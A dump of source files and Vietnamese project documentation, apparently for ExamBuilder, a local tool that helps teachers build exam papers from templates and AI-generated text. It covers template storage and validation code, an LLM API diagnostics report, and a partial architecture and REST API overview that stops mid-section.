      const existing = await db.get('SELECT template_id FROM TEMPLATE WHERE template_id = ?', [template.template_id]);
      if (existing) throw new TemplateError(409, 'Mã mẫu đã tồn tại');
      await db.run('INSERT INTO TEMPLATE(template_id, current_version) VALUES (?, 1)', [template.template_id]);
      await db.run('INSERT INTO TEMPLATE_VERSION(template_id, template_version, payload_json) VALUES (?, 1, ?)', [template.template_id, JSON.stringify(template)]);
      await db.exec('COMMIT');
      return structuredClone(template);
    } catch (error) { await db.exec('ROLLBACK'); throw error; }
  });
}

async function cloneAndCreate(id, name) {
  const source = await getTemplate(id);
  if (!source) throw new TemplateError(404, 'Không tìm thấy mẫu');
  return createTemplate(cloneTemplate(source, name));
}

async function updateTemplate(id, proposed, expectedVersion) {
  if (getSeed(id)) throw new TemplateError(403, 'Mẫu gốc chỉ đọc; hãy tạo bản sao');
  if (!Number.isSafeInteger(expectedVersion) || expectedVersion < 1) throw new TemplateError(400, 'Thiếu expected_version hợp lệ');
  return withLock(async () => {
    const db = await getDb();
    try {
      await db.exec('BEGIN IMMEDIATE');
      const row = await db.get('SELECT current_version FROM TEMPLATE WHERE template_id = ? AND deleted_at IS NULL', [id]);
      if (!row) throw new TemplateError(404, 'Không tìm thấy mẫu');
      if (row.current_version !== expectedVersion) throw new TemplateError(409, 'Mẫu đã thay đổi; tải lại trước khi lưu');
      const next = { ...proposed, schema_version: 1, template_id: id, origin: 'user', is_builtin: false, template_version: row.current_version + 1 };
      assertValid(next);
      await db.run('INSERT INTO TEMPLATE_VERSION(template_id, template_version, payload_json) VALUES (?, ?, ?)', [id, next.template_version, JSON.stringify(next)]);
      await db.run(`UPDATE TEMPLATE SET current_version = ?, updated_at = strftime('%Y-%m-%dT%H:%M:%SZ','now') WHERE template_id = ?`, [next.template_version, id]);
      await db.exec('COMMIT');
      return next;
    } catch (error) { await db.exec('ROLLBACK'); throw error; }
  });
}

async function deleteTemplate(id) {
  if (getSeed(id)) throw new TemplateError(403, 'Không thể xóa mẫu gốc');
  return withLock(async () => {
    const db = await getDb();
    const result = await db.run(`UPDATE TEMPLATE SET deleted_at = strftime('%Y-%m-%dT%H:%M:%SZ','now') WHERE template_id = ? AND deleted_at IS NULL`, [id]);
    if (!result.changes) throw new TemplateError(404, 'Không tìm thấy mẫu');
  });
}

module.exports = { TemplateError, cloneTemplate, listTemplates, getTemplate, createTemplate, cloneAndCreate, updateTemplate, deleteTemplate };

```

### FILE: backend/templates/seeds.js

```javascript
// Counts and point allocations below are engineering defaults, not mandated exam standards.
const SPECS = [
  ['t01', 'Đề kiểm tra 15 phút', 'short', 15, 1, [['Trắc nghiệm', 'MCQ', 4, '0.50'], ['Tự luận ngắn', 'ESSAY', 2, '4.00']]],
  ['t02', 'Đề kiểm tra 45 phút', 'period', 45, 1, [['Trắc nghiệm', 'MCQ', 8, '0.50'], ['Tự luận', 'ESSAY', 3, '2.00']]],
  ['t03', 'Đề giữa học kỳ', 'exam-period', 60, 1, [['Trắc nghiệm', 'MCQ', 12, '0.25'], ['Tự luận', 'ESSAY', 2, '3.50']]],
  ['t04', 'Đề cuối học kỳ', 'exam-period', 90, 1, [['Trắc nghiệm', 'MCQ', 16, '0.25'], ['Tự luận', 'ESSAY', 3, '2.00']]],
  ['t05', 'Đề 100% trắc nghiệm', 'objective', 45, 1, [['Trắc nghiệm', 'MCQ', 20, '0.50']]],
  ['t06', 'Đề 100% tự luận', 'written', 60, 1, [['Tự luận', 'ESSAY', 5, '2.00']]],
  ['t07', 'Đề kết hợp nhiều dạng câu', 'mixed', 60, 1, [['Trắc nghiệm', 'MCQ', 4, '0.50'], ['Đúng sai', 'TRUE_FALSE', 2, '0.50'], ['Điền khuyết', 'FILL_BLANK', 2, '0.50'], ['Tự luận', 'ESSAY', 2, '3.00']]],
  ['t08', 'Đề Toán có nhiều vùng trình bày lời giải', 'math', 60, 1, [['Lời giải', 'ESSAY', 4, '2.50']]],
  ['t09', 'Đề hai cột, tiết kiệm giấy', 'compact', 45, 2, [['Trắc nghiệm', 'MCQ', 10, '0.50'], ['Tự luận', 'ESSAY', 2, '2.50']]],
  ['t10', 'Đề Ngoại ngữ có phần đọc hiểu', 'language', 60, 1, [['Đọc hiểu', 'MCQ', 4, '0.50'], ['Từ vựng và ngữ pháp', 'MCQ', 4, '0.50'], ['Điền từ', 'FILL_BLANK', 2, '0.50'], ['Viết', 'ESSAY', 1, '5.00']]]
];

function cents(points) { return Math.round(Number(points) * 100); }
function money(value) { return (value / 100).toFixed(2); }
function makeSeed(spec, index) {
  const [code, display_name, category, duration_minutes, columns, groups] = spec;
  const sections = groups.map(([title, question_type, count, points], sectionIndex) => {
    const section_id = `builtin.${code}.s${String(sectionIndex + 1).padStart(2, '0')}`;
    const isEssay = question_type === 'ESSAY';
    const kind = isEssay ? 'ESSAY' : 'MULTIPLE_CHOICE';
    const lines = isEssay ? (code === 't08' ? 12 : 6) : question_type === 'FILL_BLANK' ? 2 : 0;
    return {
      section_id, title: `Phần ${sectionIndex + 1}. ${title}`, kind,
      declared_points: money(count * cents(points)),
      stimulus: code === 't10' && sectionIndex === 0 ? '' : null,
      layout: { columns: code === 't09' && !isEssay ? 2 : 1, keep_heading_with_next: true },
      slots: Array.from({ length: count }, (_, position) => ({
        slot_id: `${section_id}.q${String(position + 1).padStart(3, '0')}`,
        position, question_type, difficulty_level: position % 4 === 3 ? 'VD' : 'NB',
        points, required: true,
        answer_space: { kind: isEssay ? (code === 't08' && position === 3 ? 'drawing' : code === 't08' ? 'squared' : 'lined') : lines ? 'blank' : 'none', lines, min_lines: lines, max_lines: isEssay ? Math.max(lines, 24) : lines, auto_expand: isEssay },
        content: null, assets: []
      }))
    };
  });
  return {
    schema_version: 1, template_id: `builtin.${code}`, template_version: 1,
    display_name, origin: 'builtin', is_builtin: true, category,
    description: `${sections.reduce((sum, s) => sum + s.slots.length, 0)} câu, ${groups.length} phần; cấu trúc mẫu gốc cố định.`,
    subject_hint: null, tags: [category],
    defaults: { subject: '', grade: '', duration_minutes, total_points: '10.00', school_header: '', topic: '', school_year: '', semester: '' },
    appearance: {
      paper: 'A4', orientation: 'portrait', margins_mm: { top: 18, bottom: 18, left: 18, right: 18 },
      font_family: 'Arial', body_font_pt: 12, line_spacing: 1.25, columns,
      header: { enabled: true, fields: ['school', 'exam_title'] },
      footer: { enabled: index >= 2, fields: ['page_number'] },
      background: { asset_id: null, opacity: 0.12, fit: 'contain', apply_to: 'all' }
    },
    pagination: { mode: 'auto', max_pages: null }, sections,
    prompt_settings: { ruleset_version: 'current', extra_instructions: '', user_preset_id: null }
  };
}

const seeds = SPECS.map(makeSeed);
function getSeed(id) {
  const seed = seeds.find(item => item.template_id === id);
  return seed ? structuredClone(seed) : null;
}
function listSeeds() { return structuredClone(seeds); }
module.exports = { getSeed, listSeeds };

```

### FILE: backend/templates/validation.js

```javascript
const TYPES = new Set(['MCQ', 'TRUE_FALSE', 'FILL_BLANK', 'ESSAY']);
const SPACES = new Set(['none', 'lined', 'blank', 'squared', 'table', 'drawing']);
const LEVELS = new Set(['NB', 'TH', 'VD', 'VDC']);
const POINTS = /^(?:0|[1-9]\d{0,3})(?:\.\d{1,2})?$/;

function toCents(value) {
  if (typeof value !== 'string' || !POINTS.test(value)) return null;
  const [whole, fraction = ''] = value.split('.');
  return Number(whole) * 100 + Number(fraction.padEnd(2, '0'));
}

function validateTemplate(template) {
  const errors = [];
  const error = (path, message) => errors.push({ path, message });
  if (!template || typeof template !== 'object' || Array.isArray(template)) return [{ path: '', message: 'Template phải là đối tượng' }];
  if (template.schema_version !== 1) error('schema_version', 'Phiên bản schema không được hỗ trợ');
  if (typeof template.template_id !== 'string' || !/^[a-z0-9][a-z0-9.-]{2,100}$/.test(template.template_id)) error('template_id', 'Mã template không hợp lệ');
  if (typeof template.display_name !== 'string' || !template.display_name.trim() || template.display_name.length > 120) error('display_name', 'Tên mẫu không hợp lệ');
  if (template.origin !== 'builtin' && template.origin !== 'user') error('origin', 'Nguồn mẫu không hợp lệ');
  if (!Number.isSafeInteger(template.template_version) || template.template_version < 1) error('template_version', 'Phiên bản mẫu không hợp lệ');
  const defaults = template.defaults || {};
  const total = toCents(defaults.total_points);
  if (total === null || total <= 0) error('defaults.total_points', 'Tổng điểm không hợp lệ');
  if (!Array.isArray(template.sections) || template.sections.length < 1 || template.sections.length > 30) {
    error('sections', 'Mẫu cần từ 1 đến 30 phần');
    return errors;
  }
  const ids = new Set();
  let examTotal = 0;
  let slotCount = 0;
  template.sections.forEach((section, si) => {
    const path = `sections.${si}`;
    if (!section || typeof section !== 'object') { error(path, 'Phần không hợp lệ'); return; }
    if (typeof section.section_id !== 'string' || !section.section_id || ids.has(section.section_id)) error(`${path}.section_id`, 'Mã phần thiếu hoặc trùng');
    ids.add(section.section_id);
    if (typeof section.title !== 'string' || !section.title.trim() || section.title.length > 160) error(`${path}.title`, 'Tên phần không hợp lệ');
    if (section.stimulus != null && (typeof section.stimulus !== 'string' || section.stimulus.length > 50000)) error(`${path}.stimulus`, 'Đoạn đọc không hợp lệ');
    if (!Array.isArray(section.slots) || section.slots.length < 1 || section.slots.length > 100) { error(`${path}.slots`, 'Phần cần từ 1 đến 100 câu'); return; }
    let sectionTotal = 0;
    section.slots.forEach((slot, qi) => {
      const sp = `${path}.slots.${qi}`;
      if (!slot || typeof slot !== 'object') { error(sp, 'Slot không hợp lệ'); return; }
      slotCount++;
      if (typeof slot.slot_id !== 'string' || !slot.slot_id || ids.has(slot.slot_id)) error(`${sp}.slot_id`, 'Mã slot thiếu hoặc trùng');
      ids.add(slot.slot_id);
      if (!TYPES.has(slot.question_type)) error(`${sp}.question_type`, 'Loại câu không hợp lệ');
      if (slot.difficulty_level != null && !LEVELS.has(slot.difficulty_level)) error(`${sp}.difficulty_level`, 'Mức độ không hợp lệ');
      if (slot.position !== qi) error(`${sp}.position`, 'Thứ tự slot không liên tục');
      const points = toCents(slot.points);
      if (points === null || points <= 0) error(`${sp}.points`, 'Điểm câu không hợp lệ');
      else sectionTotal += points;
      const space = slot.answer_space;
      if (!space || !SPACES.has(space.kind)) error(`${sp}.answer_space.kind`, 'Loại vùng trả lời không hợp lệ');
      else if (![space.lines, space.min_lines, space.max_lines].every(v => Number.isSafeInteger(v) && v >= 0 && v <= 100) || space.min_lines > space.max_lines || space.lines < space.min_lines || space.lines > space.max_lines) error(`${sp}.answer_space`, 'Số dòng trả lời không hợp lệ');
      if (slot.assets != null && !Array.isArray(slot.assets)) error(`${sp}.assets`, 'Danh sách ảnh không hợp lệ');
    });
    const declared = toCents(section.declared_points);
    if (declared === null || declared !== sectionTotal) error(`${path}.declared_points`, 'Điểm phần khác tổng điểm câu');
    examTotal += sectionTotal;
  });
  if (slotCount > 200) error('sections', 'Mẫu vượt giới hạn 200 câu');
  if (total !== null && total !== examTotal) error('defaults.total_points', 'Tổng điểm đề khác tổng điểm phần');
  const pagination = template.pagination || {};
  if (!['auto', 'max_pages'].includes(pagination.mode)) error('pagination.mode', 'Chế độ phân trang không hợp lệ');
  if (pagination.mode === 'max_pages' && (!Number.isSafeInteger(pagination.max_pages) || pagination.max_pages < 1 || pagination.max_pages > 100)) error('pagination.max_pages', 'Giới hạn trang không hợp lệ');
  return errors;
}

module.exports = { validateTemplate, toCents };

```

### FILE: documents.txt

```text
Mở rộng sang làm đề kiểm tra theo template, chỉ cần có khung sẵn có và các khuôn mẫu để dán vào kèm số dòng, có thể tải background template, tất nhiên sẽ cần prompt để AI ngoài sinh đề.
```

### FILE: documents/LLM_API_DIAGNOSTICS.md

```markdown
# Chẩn đoán luồng LLM API cũ

Ngày lập: 11/10/2026. Báo cáo của người dùng: API LLM tự động bị lỗi nhưng chưa có thông báo lỗi, provider/model hay ca tái hiện cụ thể. Không sử dụng key thật và không gọi cloud trong M0; không tuyên bố đã xác định nguyên nhân từ báo cáo chung.

## Dấu vết mã nguồn đã kiểm tra

1. UI `frontend/script.js` tải model qua `POST /api/settings/llm/models`, gửi `POST /api/generate` bằng `model_id` hoặc `provider` + `model_name`.
2. `backend/routes/settingsRoutes.js` lấy key đã lưu nếu request không đưa key, gọi `listModelsFor`; route `/llm/test` gọi `provider.generate('Tra loi ngan gon: OK')`. Key trong `LLM_SETTINGS` không trả toàn bộ qua GET.
3. `backend/routes/generateRoutes.js` lấy model/key, `buildPrompt` từ `Gemini_Prompt_Unified.txt`, gọi provider, parse bằng `TextPromptParser`, retry tối đa 2 lần nếu sai cú pháp; lỗi upstream thành HTTP 502, sai format sau retry thành 422.
4. `OpenAIProvider`, `AnthropicProvider`, `GeminiProvider` dùng `fetch` với timeout 120 giây và endpoint riêng. `ProviderFactory` chỉ hỗ trợ ba hãng đó và local GGUF cho API tự động; năm AI của Copy Prompt là bộ chọn mới, không phải lời hứa API cloud cho DeepSeek/Grok.

## Bằng chứng kiểm thử và giới hạn

`npm test -- --runInBand` tại M0: **27/27 suite, 422/422 test qua**. Các test route/provider dùng mock, chứng minh xử lý trường hợp mô phỏng; không chứng minh key, quyền model, quota, mạng, trạng thái API hãng, phản hồi thật hay cách UI hiển thị lỗi trên máy người dùng. Không đọc/in key từ SQLite hay log. Không có root cause được xác nhận trong M0. Chưa sửa mã API cũ trong nhánh tài liệu này.

## Quy trình tái hiện an toàn cho track M7

Ghi thời điểm, provider, model ID, bước lỗi (`list models`/`test`/`generate`/`parse`), HTTP status và thông báo đã gỡ key/token. Chạy test mocked riêng và tái hiện request cục bộ; nếu được người dùng cấp key hợp lệ qua UI thì smoke thật, không đưa key vào test fixture/log/issue. Đối chiếu lỗi 400 cấu hình, 502 upstream/timeout, 422 parse; nếu list model trả model không hỗ trợ generate, kiểm capability trước khi chọn. Chỉ sửa khi chứng minh được nguyên nhân và thêm regression test. Copy Prompt → AI ngoài → dán text vẫn phải hoạt động dù API cloud lỗi hoặc offline.

## Cập nhật 13/10/2026 — lỗi tìm được từ mã nguồn

- **OpenAI:** `OpenAIProvider.generate` luôn gửi `temperature: 0.7`. `listModels` sắp model mới nhất lên đầu, nên người dùng dễ chọn model reasoning (GPT-5, o-series); các model này chỉ nhận temperature mặc định và trả **HTTP 400** (luồng sinh đề báo lỗi upstream 502). Đã bỏ tham số; `tests/llm/OpenAIProvider.test.js` kiểm body request, lỗi 400 không lộ key và phản hồi rỗng. Đây là nguyên nhân có căn cứ từ hợp đồng API, **chưa xác nhận bằng key thật** của người dùng.
- Anthropic/Gemini: không thấy tham số bị model mới từ chối trong request hiện tại; chưa có bằng chứng lỗi. Nếu vẫn lỗi, cần provider, model ID, bước lỗi và HTTP status (đã gỡ key) theo quy trình phía trên.

```

### FILE: documents/PROJECT_CONTEXT.md

````markdown
# ExamBuilder — Full Project Context

> Tài liệu "một chỗ đọc là hiểu" cho người (hoặc AI) mới vào dự án: mục tiêu, kiến trúc, luồng dữ liệu,
> quy ước code, trạng thái hiện tại và hướng phát triển.
> Chi tiết sâu hơn: [README.md](./README.md) (web), [Exam builder for adr/README.md](../Exam%20builder%20for%20adr/README.md) (Android).
> Bản dump toàn bộ source: [PROJECT_BLUEPRINT.md](./PROJECT_BLUEPRINT.md) (sinh bằng `node tools/export-blueprint.js`).
>
> Cập nhật: 2026-10-11 · Nhánh: `feature/chuan-hoa-cong-thuc-toan-latex`

---

## Mục lục

1. [Tổng quan](#1-tổng-quan)
2. [Tech stack](#2-tech-stack)
3. [Kiến trúc tổng thể](#3-kiến-trúc-tổng-thể)
4. [Kiến trúc Backend](#4-kiến-trúc-backend)
5. [Kiến trúc Frontend (web)](#5-kiến-trúc-frontend-web)
6. [Pipeline chuẩn hoá công thức toán](#6-pipeline-chuẩn-hoá-công-thức-toán)
7. [Kiến trúc App Android](#7-kiến-trúc-app-android)
8. [Mô hình dữ liệu](#8-mô-hình-dữ-liệu)
9. [REST API](#9-rest-api)
10. [Các luồng nghiệp vụ chính](#10-các-luồng-nghiệp-vụ-chính)
11. [Định dạng văn bản đề & hệ thống prompt](#11-định-dạng-văn-bản-đề--hệ-thống-prompt)
12. [Kiểm thử](#12-kiểm-thử)
13. [Quy ước & quy tắc khi sửa code](#13-quy-ước--quy-tắc-khi-sửa-code)
14. [Trạng thái hiện tại & Roadmap](#14-trạng-thái-hiện-tại--roadmap)
15. [Giới hạn đã biết & bảo mật](#15-giới-hạn-đã-biết--bảo-mật)

---

## 1. Tổng quan

**ExamBuilder** là công cụ giúp **giáo viên** soạn đề kiểm tra nhanh, gồm 2 client dùng chung một định dạng dữ liệu:

| Client | Vị trí | Vai trò |
|---|---|---|
| **Web App** (PC) | `backend/` + `frontend/` | Ứng dụng chính: nhập đề (dán text AI / tải file / form / LLM tự sinh), xem trước GV/HS, sửa trực tiếp, trộn nhiều mã đề, xuất PDF/Word, chia sẻ link, kho đề |
| **App Android** | `Exam builder for adr/` | Bản đồng hành chạy offline: soạn, xem trước, xuất PDF/DOCX trên điện thoại, kho đề |

Hai client trao đổi đề qua **một GitHub Gist secret** (file `exambuilder-library.json`).

**Đặc điểm:**
- Không đăng nhập/đăng ký — chạy local, mở là dùng.
- Ý tưởng cốt lõi: chuẩn hoá một **định dạng văn bản** để bất kỳ AI nào (Gemini, ChatGPT, Claude, DeepSeek, Grok…) sinh ra đề đúng cấu trúc → parser đọc → đề có cấu trúc.
- 4 loại câu: Trắc nghiệm (MCQ), Đúng/Sai, Điền từ, Tự luận. 4 mức độ: Nhận biết / Thông hiểu / Vận dụng / Vận dụng cao.
- Công thức toán hiển thị chuẩn bằng **KaTeX** (web) / **JLaTeXMath** (Android).

---

## 2. Tech stack

| Tầng | Công nghệ |
|---|---|
| Backend | Node.js ≥ 18 (test trên Node 24), Express 4, SQLite (`sqlite` + `sqlite3`) |
| Frontend | HTML/CSS/JS thuần, ES Modules, **không framework, không bundler** |
| Thư viện runtime | `docx` (xuất Word), `mammoth` (đọc .docx), `pdf-parse` (đọc PDF tài liệu tham khảo), `katex` (render toán), `multer` (upload), `node-llama-cpp` (chạy model .gguf local) |
| LLM | OpenAI, Anthropic, Gemini (REST qua `fetch`), model local `.gguf` |
| Đồng bộ | GitHub Gist API |
| Test | Jest 30 + Supertest, Babel (chỉ để Jest hiểu ESM) |
| Android | Kotlin, Jetpack Compose (Material 3), Navigation-Compose, DataStore, kotlinx-serialization, JLaTeXMath; `minSdk 26`, `targetSdk 36`, version `1.1.0` (code 2) |

Vendor phục vụ tĩnh từ `node_modules` (không phụ thuộc CDN): `/vendor/docx`, `/vendor/mammoth`, `/vendor/katex`.

---

## 3. Kiến trúc tổng thể



**Điểm thiết kế then chốt:**

1. **Parser là ES Module dùng chung**: `backend/parser/*.js` được serve tĩnh ở `/parser`, frontend `import` trực tiếp → parse ngay trên trình duyệt (không round-trip). Backend dùng lại chính module đó (dynamic `import()` từ CommonJS trong `generateRoutes.js`). `backend/parser/package.json` khai báo `"type": "module"` cho riêng thư mục này.
2. **Server chỉ dùng khi cần**: lưu bền (kho đề, link chia sẻ dài), gọi LLM (giữ API key server-side), đồng bộ Gist.
3. **Một nguồn sự thật cho định dạng**: `Gemini_Prompt_Unified.txt` → dùng cho cả prompt dán tay, prompt LLM tự động, và module frontend sinh tự động.
4. **Logic port song song Web ↔ Kotlin**: chuẩn hoá toán (`mathToLatex.js` ↔ `MathPromote.kt`) và merge thư viện (`library.js` ↔ `LibraryMerge.kt`) phải giữ đồng bộ từng bước, có vector test chung (`tests/parser/mathPromoteVectors.json`).

---

## 4. Kiến trúc Backend

### 4.1. Phân tầng

```
server.js  (Express app, static, mount routes, errorHandler)
   │
   ├── routes/           ← tầng HTTP: validate input, gọi domain, trả JSON {success, ...}
   │     examRoutes · archiveRoutes · syncRoutes · generateRoutes
   │     settingsRoutes · modelRoutes · resourceRoutes · backgroundRoutes
   │
   ├── parser/  (ESM)    ← domain thuần, không phụ thuộc DOM/DB — dùng chung FE/BE
   ├── llm/              ← adapter LLM (Strategy + Factory)
   ├── sync/             ← domain thuần (library.js) + adapter HTTP (gistClient.js)
   │
   ├── examValidation.js ← validateExamPayload() dùng chung cho /exams/save và /archive
   ├── mutex.js          ← withLock(): xếp hàng transaction ghi trên 1 kết nối SQLite
   ├── errorHandler.js   ← middleware lỗi toàn cục (JSON đồng nhất)
   └── database.js       ← singleton kết nối + tạo schema; EXAM_DB_PATH, closeDb() cho test
```

### 4.2. Design patterns

| Pattern | Ở đâu | Mục đích |
|---|---|---|
| **Interface + Open/Closed** | `parser/IQuestionParser.js` → `TextPromptParser`, `FileUploadParser` | Thêm định dạng đầu vào mới không sửa code cũ |
| **Strategy + Factory** | `llm/ILLMProvider.js` → `OpenAIProvider`, `AnthropicProvider`, `GeminiProvider`, `LocalGgufProvider`; `ProviderFactory.createProvider(modelRow, apiKey)` | Chọn provider theo `source_type`/`provider`; thêm hãng mới chỉ cần thêm class + đăng ký |
| **Delegation** | `FileUploadParser`: `.txt`/`.docx` → trích text → uỷ quyền `TextPromptParser` | Không lặp logic parse |
| **Mutex (async lock)** | `mutex.js#withLock` | Chống crash khi nhiều transaction đồng thời trên 1 connection SQLite |
| **Pure core / thin adapter** | `sync/library.js` (thuần) vs `sync/gistClient.js` (HTTP) | Unit test 100% logic merge không cần mạng |
| **Self-correction loop** | `generateRoutes.js`: LLM → parser → lỗi → `buildRetryPrompt` (tối đa 2 lần retry) | Tăng tỉ lệ ra đề đúng định dạng |

### 4.3. Module LLM

- Mỗi provider có `generate(prompt)`; provider cloud có thêm `listModels()` (mới, chưa commit) → `ProviderFactory.listModelsFor(provider, apiKey)`.
- `promptBuilder.buildPrompt({ topic, sectionsContent, questionSpec, extraInstructions })`: trích **PHẦN 2** của `Gemini_Prompt_Unified.txt` nguyên văn + nội dung các Phần tài liệu + bảng số lượng câu (loại × mức độ) + yêu cầu bổ sung của người dùng.
- `POST /api/generate` nhận **một trong hai** kiểu chọn model:
  - `model_id` — model đã đăng ký trong `LLM_MODEL` (cloud hoặc `.gguf` local), hoặc
  - `provider` + `model_name` — model cloud "live", không cần đăng ký, chỉ cần API key đã lưu.

### 4.4. Thư viện tài liệu tham khảo

`RESOURCE_DOCUMENT` → nhiều `RESOURCE_SECTION` (giáo viên tự chia theo chương/bài). Phần có thể nhập tay hoặc **upload file `.txt` / `.docx` / `.pdf`** (`POST /:doc_id/sections/upload`, multer memory storage, giới hạn 20MB). Nội dung các Phần được chọn làm ngữ cảnh cho prompt.

---

## 5. Kiến trúc Frontend (web)

Single page, không framework. File chính:

| File | Vai trò |
|---|---|
| `frontend/index.html` | Layout: toolbar, các tab nhập (Dán văn bản / Tải file / Nhập form / Sinh đề tự động), khu Preview, khu "Prompt mẫu cho AI", modal Chia sẻ / Cài đặt / Lịch sử |
| `frontend/script.js` (~2100 dòng) | Toàn bộ state + render + sự kiện |
| `frontend/style.css` | Theme engine 18 chủ đề `[data-theme]` (16 sáng + 2 tối), `--ui-scale`, responsive, `@media print` A4 |
| `frontend/promptTemplate.js` | **TỰ SINH** từ `Gemini_Prompt_Unified.txt` |
| `frontend/promptVariants.js` | **TỰ SINH** từ `AI_Prompts_Variants.txt` (6 AI: Gemini, Gemini Pro, ChatGPT, DeepSeek, Claude, Grok) |

**Mô hình state → DOM (trong `script.js`):**



- Hiển thị an toàn: nội dung người dùng/AI luôn chèn bằng `textContent`; `innerHTML` chỉ dùng cho HTML do KaTeX sinh ra (`trust: false`, `throwOnError: false`).
- Đánh số câu **liên tục 1..N** cho cả đề (khớp Android + Word).
- "Chế độ Học sinh" ẩn đáp án, lời giải, nút sửa. Link chia sẻ mở thẳng vào chế độ này.
- Tuỳ chọn giao diện lưu `localStorage` (`eb_theme`, `eb_uiScale`), áp trước khi vẽ để không nháy màu.

---

## 6. Pipeline chuẩn hoá công thức toán

Đây là phần được làm nhiều nhất gần đây (TASK B→E, nhánh hiện tại). Mục tiêu: **mọi cấu trúc toán 2 chiều** (căn, phân số, căn bậc n, luỹ thừa chồng…) dù AI viết ở dạng ASCII (`sqrt(3)`, `1/2`, `√(x+1)`) hay LaTeX đều được quy về `$...$` LaTeX và vẽ bằng KaTeX/JLaTeXMath. **Đã bỏ hoàn toàn renderer "căn/phân số giả bằng CSS"** trên web.



**Bất biến quan trọng:**
- `formatMathSymbols` / `promoteStructuralMath` **idempotent** — chạy lại trên kết quả không đổi gì. Vì vậy được gọi ở cả: lúc parse, lúc nạp đề cũ vào editor (chuẩn hoá đề cũ khi nạp — TASK E), mỗi lần người dùng sửa xong một trường, và lúc render.
- Khối `$...$` / `$$...$$` có sẵn được coi là **kín** — không chạm vào bên trong.
- Bản Kotlin `Exam builder for adr/.../math/MathPromote.kt` (`MathConvert.promoteStructuralMath`) phải **đồng bộ từng bước** với `mathToLatex.js`; cả hai chạy chung bộ vector `tests/parser/mathPromoteVectors.json` (Jest: `mathPromoteVectors.test.js`, JUnit: `MathPromoteTest.kt`).
- Hướng dẫn AI viết công thức đúng chuẩn: `PROMPT_HOP_NHAT_CONG_THUC_TOAN.txt` và mục công thức trong `Gemini_Prompt_Unified.txt`.

---

## 7. Kiến trúc App Android

Kiến trúc **MVVM** một module (`app`), không phụ thuộc server.



- Kho đề: file JSON (không dùng Room — dữ liệu phi quan hệ, khớp 1:1 với file Gist). Autosave debounce 1.2s.
- PDF: `android.graphics.pdf.PdfDocument` (không thư viện ngoài); công thức rasterize qua `LatexImage`.
- DOCX: tự ghi file zip OOXML (`DocxExporter.kt`), công thức nhúng dạng ảnh.
- 11 chủ đề màu (`ui/theme/Palettes.kt`), hex đồng bộ với `style.css`.
- Build: JDK 24, Gradle 8.9+; release ký bằng `keystore.properties` (không commit). `gradle.properties` có `android.overridePathCheck=true` do đường dẫn có ký tự không phải ASCII.

---

## 8. Mô hình dữ liệu

Schema tạo trong `backend/database.js` (`PRAGMA foreign_keys = ON`, `ON DELETE CASCADE`, `CHECK` cho enum). Ba nhóm bảng độc lập (không FK nối nhau):

| Nhóm | Bảng | Ghi chú |
|---|---|---|
| **Đề chia sẻ** (3NF) | `EXAM` → `QUESTION_BLOCK` → `QUESTION` → `QUESTION_OPTION`; `EXAM_SHARE` | Dùng cho link `?code=` (đề dài) |
| **Kho đề + đồng bộ** | `SAVED_EXAM` (phi chuẩn hoá: `payload_json`, `deleted_at` = tombstone), `SYNC_SETTINGS` (1 dòng) | Khớp 1:1 với file Gist |
| **LLM** | `LLM_SETTINGS` (API key theo provider), `LLM_MODEL` (cloud / local_gguf), `RESOURCE_DOCUMENT` → `RESOURCE_SECTION` | |

**Hình dạng đề (dùng chung mọi nơi — parser, state, Gist, Android):**

```json
{
  "title": "…", "subject": "…", "duration_minutes": 45, "school_header": "…",
  "blocks": [
    {
      "block_type": "MULTIPLE_CHOICE | ESSAY",
      "block_title": "…",
      "questions": [
        {
          "question_type": "MCQ | TRUE_FALSE | FILL_BLANK | ESSAY",
          "difficulty_level": "NB | TH | VD | VDC",
          "content": "Tính $\\frac{1}{2} + \\sqrt{3}$",
          "options": [{ "option_key": "A", "option_text": "…", "is_correct": true }],
          "correct_answer": "A",
          "explanation": "…",
          "draft_lines_count": 0
        }
      ]
    }
  ]
}
```

ERD đầy đủ: [README.md §3.2](./README.md#32-mô-hình-dữ-liệu-chuẩn-hoá-3nf).

---

## 9. REST API

Mọi response dạng `{ success: boolean, ... , error?: string }`.

| Method | Path | Chức năng |
|---|---|---|
| POST | `/api/exams/save` | Lưu đề (transaction, `validateExamPayload`) → `exam_id` |
| GET | `/api/exams/:exam_id` | Đọc đề (join lồng nhau) |
| POST | `/api/exams/share` | Tạo `share_code` (8 hex, `expires_in_days` tuỳ chọn) |
| DELETE | `/api/exams/share/:share_code` | Thu hồi link |
| GET | `/api/exams/shared/:share_code` | Đọc đề theo link |
| GET | `/api/archive` | Liệt kê kho đề (ẩn tombstone) |
| GET | `/api/archive/:exam_id` | Payload đầy đủ |
| POST | `/api/archive` | Upsert (không hồi sinh đề đã xoá) |
| DELETE | `/api/archive/:exam_id` | Xoá mềm |
| GET/POST | `/api/sync/settings` | Cấu hình token + Gist ID (token luôn bị che khi đọc) |
| POST | `/api/sync/push` | máy → Gist: `merge(local, cloud)`, tự tạo Gist nếu chưa có |
| POST | `/api/sync/pull` | Gist → máy: `merge(cloud, local)` |
| GET/POST | `/api/settings/llm` | Đọc (che key) / lưu API key |
| POST | `/api/settings/llm/test` | Thử kết nối 1 model |
| POST | `/api/settings/llm/models` | Lấy danh sách model của provider từ API hãng *(mới)* |
| GET | `/api/models` | Liệt kê model đã đăng ký |
| POST | `/api/models/cloud` · `/api/models/local` | Đăng ký model cloud / upload `.gguf` |
| DELETE | `/api/models/:model_id` | Xoá model (+ file nếu local) |
| GET/POST | `/api/resources` | Liệt kê / tạo tài liệu tham khảo |
| POST | `/api/resources/:doc_id/sections` | Thêm Phần (nhập tay) |
| POST | `/api/resources/:doc_id/sections/upload` | Thêm Phần từ file .txt/.docx/.pdf *(mới)* |
| DELETE | `/api/resources/:doc_id` | Xoá tài liệu (CASCADE) |
| POST | `/api/generate` | Sinh đề bằng LLM (prompt → LLM → parser → retry ≤ 2) |
| GET | `/api/backgrounds` | Liệt kê ảnh nền PDF trong `resources/backgrounds/` |

Static: `/` (frontend), `/parser/*`, `/vendor/{docx,mammoth,katex}/*`, `/backgrounds/*`.

---

## 10. Các luồng nghiệp vụ chính

### 10.1. Dán đề từ AI ngoài (luồng chính)
1. Giáo viên mở khu "Prompt mẫu cho AI", chọn AI (6 lựa chọn), copy prompt, thay chủ đề, dán vào AI.
2. Copy kết quả → tab "Dán văn bản" → "Sinh Đề Kiểm Tra".
3. `TextPromptParser` parse ngay trên trình duyệt → chuẩn hoá toán → render → tự lưu vào kho đề.

### 10.2. Sinh đề tự động bằng LLM


### 10.3. Trộn nhiều mã đề
